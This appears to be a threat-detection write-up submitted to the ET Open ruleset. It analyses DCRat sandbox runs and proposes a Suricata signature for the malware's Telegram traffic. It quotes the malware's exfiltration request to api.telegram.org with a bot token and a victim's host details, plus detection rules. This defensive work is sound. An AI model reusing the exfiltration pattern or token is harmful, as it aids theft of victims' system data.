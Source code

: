 # ET Open Submission
### January 9th, 2023
### DCRat Activity Detected


## Resources

1. https://tria.ge/230107-eynj2acf87/behavioral2
2. https://tria.ge/230107-fa3jqagb8t/behavioral3
3. https://app.any.run/tasks/f314829e-d378-445d-8749-43a465121737/


If I don't have anything here just let me know.

This [triage](https://tria.ge/230107-fa3jqagb8t/behavioral3) run for DCRat fired an older rule of **2034194**

```alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE DCRAT Activity (GET)"; flow:established,to_server; http.method; content:"GET"; http.uri; content:".php?"; content: "&"; pcre: "/^(?:[a-f0-9]{2}){16}=(?:[a-f0-9]{2}){16}&(?:[a-f0-9]{2}){16}=(?=[a-z0-9A-Z]{0,32}[A-Z][a-z][A-Z][a-z][A-Z])/R"; http.header_names; content:"|0d 0a|Accept|0d 0a|Content-Type|0d 0a|User-Agent|0d 0a|Host|0d 0a|Connection|0d 0a 0d 0a|"; bsize:56; fast_pattern; reference:url,twitter.com/James_inthe_box/status/1448751827046985746; reference:md5,60cf8c1093d596a44dc997d00caae463; classtype:trojan-activity; sid:2034194; rev:2; metadata:attack_target Client_Endpoint, created_at 2021_10_15, deployment Perimeter, former_category MALWARE, signature_severity Major, updated_at 2021_10_15;)```

This newer [triage](https://tria.ge/230107-eynj2acf87/behavioral2) instance I found and re-ran did not trip anything but some informational alerts.

This is why I wrote a new signature to detect on the client>server pattern I keep seeing.

```/bot5861146625:AAEHo1wi939JhVuLzstg9mWqpsc_ntWfbTQ/sendPhoto?chat_id=5058531872&caption=%E2%9D%95%20User%20connected%20%E2%9D%95%0A%E2%80%A2%20ID%3A%20a683d399ec4da81b2f69cbd3e01b93a58b431a4e%0A%E2%80%A2%20Comment%3A%2025.12-26.12%0A%0A%E2%80%A2%20User%20Name%3A%20Admin%0A%E2%80%A2%20PC%20Name%3A%20TMKNGOMU%0A%E2%80%A2%20OS%20Info%3A%20Windows%2010%20Pro%0A%0A%E2%80%A2%20IP%3A%20154.61.71.13%0A%E2%80%A2%20GEO%3A%20NL%20%2F%20Aalsmeerderbrug%0A%0A%E2%80%A2%20Working%20Directory%3A%20C%3A%5CUsers%5CAll%20Users%5CDesktop%5Cservices.exe```

Once decoded an human readable, they always seem to come out very similar.

```/bot5861146625:AAEHo1wi939JhVuLzstg9mWqpsc_ntWfbTQ/sendPhoto?chat_idP58531872&caption=❕ User connected ❕
• ID: a683d399ec4da81b2f69cbd3e01b93a58b431a4e
• Comment: 25.12-26.12

• User Name: Admin
• PC Name: TMKNGOMU
• OS Info: Windows 10 Pro

• IP: 154.61.71.13
• GEO: NL / Aalsmeerderbrug

• Working Directory: C:\Users\All Users\Desktop\services.exe```

I generated a Flowsynth PCAP and built a signature based on it since the TLS was causing strange issues in the triage PCAP.

## Signature

```alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE DCRAT Activity"; flow:established,to_server; http.uri; content:"/bot"; startswith; content:"/sendPhoto?chat_id="; within:75; pcre:"/^\/bot[0-9]{9}/"; pcre:"/chat_id=[0-9]{9,10}/"; http.host; content:"api.telegram.org"; reference:url,https://tria.ge/230107-eynj2acf87/behavioral2; classtype:trojan-activity; sid:1; rev:1;)```

[Flowsynth PCAP](flowsynth.pcap)

[Re-Ran Full PCAP](raran-full.pcapng)

[Old Run PCAP](old-run.pcapng)

[Dalton Instance](https://dalton.centraliowacybersec.com)
